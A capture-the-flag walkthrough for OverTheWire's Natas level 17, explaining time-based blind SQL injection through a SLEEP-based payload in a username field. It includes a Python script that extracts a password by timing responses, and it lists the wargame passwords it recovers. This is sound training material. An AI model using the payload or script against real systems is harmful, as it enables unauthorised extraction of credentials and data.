

# Natas Level 17 → Level 18

### Challenge

**URL: http://natas17.natas.labs.overthewire.org/**

This level uses time-based blind SQL injection. The server prints no visual feedback:

Looking at the source code, the lines that previously printed "User exists" or "User doesn't exist" have been commented out:

```
if(mysqli_num_rows($res) > 0) {
    //echo "This user exists.<br>";
} else {
    //echo "This user doesn't exist.<br>";
}
```

Since we cannot see the query result, we use response time as a side channel by forcing the database to sleep when a guess matches.

---

### Walkthrough

1.  Inject a conditional statement that runs MySQL `SLEEP()`. If the password for `natas18` starts with `a`, wait 5 seconds; otherwise return immediately:
    - Page takes 5+ seconds to load: the character matches.
    - Page loads immediately: the character does not match.

2.  We inject into the `username` field. The SQL query structure will look like this:

    `natas18" AND IF(password LIKE BINARY "a%", SLEEP(5), 0) #`
    - `natas18"`: Closes the original username string.
    - `AND IF(condition, true_action, false_action)`: The SQL logic structure.
    - `SLEEP(5)`: The action to take if the password match is found (True).
    - `0`: The action to take if not found (False - instant return).
    - `#`: Comments out the rest of the original query.

3.  A Python script automates the checks by measuring how long each request takes:

    ```
    import requests
    from string import ascii_letters, digits

    url = "http://natas17.natas.labs.overthewire.org/"
    auth = ("natas17", "EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC") # Use current level password
    chars = ascii_letters + digits
    password_found = ""

    print("Extracting password via Time-Based SQLi...")

    for i in range(32):
        for char in chars:
            payload = f'natas18" AND IF(password LIKE BINARY "{password_found + char}%", SLEEP(3), 0) #'

            try:
                r = requests.post(url, auth=auth, data={"username": payload}, timeout=10)

                if r.elapsed.total_seconds() >= 2.5:
                    password_found += char
                    print(f"Found: {password_found}")
                    break
            except requests.exceptions.Timeout:
                # Timeout can also mean SLEEP() triggered
                pass

    print(f"Final Password: {password_found}")
    ```

4.  Run the script. Extracting all 32 characters takes at least ~1.5 to 2 minutes because of the 3-second `SLEEP(3)` delays.



---

### Credentials Found

- **Username:** `natas18`
- **Password:** `6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ`
